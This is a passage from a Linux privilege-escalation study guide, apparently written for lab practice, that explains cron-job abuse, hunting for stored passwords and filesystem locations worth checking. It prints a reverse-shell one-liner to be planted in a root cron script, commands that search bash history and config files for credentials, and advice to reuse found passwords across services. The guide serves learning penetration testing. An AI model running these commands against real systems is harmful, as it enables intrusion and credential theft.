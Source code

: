 ### 4. Cron Jobs
#### 4.1 What is it
- Put simply, cron is a scheduler that runs tasks at regular intervals. 
#### 4.2 Why it matters
- If a `root` cron job executes a script that you can modify, you can change the script to something malicious like a reverse shell
#### 4.3 How to exploit
- Check cron jobs
```
ls -la /etc/cron.*
```
- Check for anything that can be modified by your current user or check anything that stands out. I recommend trying `nibbles` for this
- Example:
  ```
  # This is a bash script that runs hourly as root, but can be modified by anyone
  
  # Modify the file to make a simple reverse shell that you will catch on port 4444:
  bash -i >& /dev/tcp/10.10.14.17/4444 0>&1
  ```
  
### 5. Unsafe Password Storage
#### 5.1 What is it
- Passwords often get stored in unsafe places: history files, config files, backups, logs, databases
#### 5.2 Why it matters
- If a password is found, it can give you access to other accounts or services that were inaccessible otherwise
- It is usually used in conjunction with other methods to gain `root` privileges
#### 5.3 How to exploit
- Search for keywords or common locations for passwords to be insecurely stored
```
cat ~/.bash_history
find / -name "*.db" 2>/dev/null
find / -name "*.conf" 2>/dev/null
find / -name "*password*" 2>/dev/null
```
- There is a lot of places to check, the ones I gave as an example are only a few
- I find this step to be the most time consuming just because there can be a lot of potential places to look through depending on the machine, `linpeas` would help a lot with this
- Sometimes you need to just manually look through locations since using keywords in order to find passwords stored in files can be somewhat inconsistent (Think of the case were someone does `pwd=123` instead of `password=123`)
- Similar to when attacking AD environments where if you find a password you should spray it across the network to test for password reuse and accessible services, you need to test anywhere where there were credentials required such as SSH or web portals to see if you are now authorized to use anything that was previously restricted. I recommend trying `outbound` for this

### Side Notes
One of the reasons why I would recommend learning Linux before attempting to learn privilege escalation is because it will make everything more intuitive and will allow you to better understand how to link everything together. This in turn can give you a sense of direction and you have a better understanding of potential misconfigurations. For example, understanding the Linux FHS (Filesystem Hierarchy Standard) allows you to know that:
- `/opt` usually has some nice findings since its optional programs that usually add attack vectors and can be easily misconfigured
- `/tmp` typically has read/write perms for everyone, this is useful for running exploits
- `/var` can store databases with sensitive info
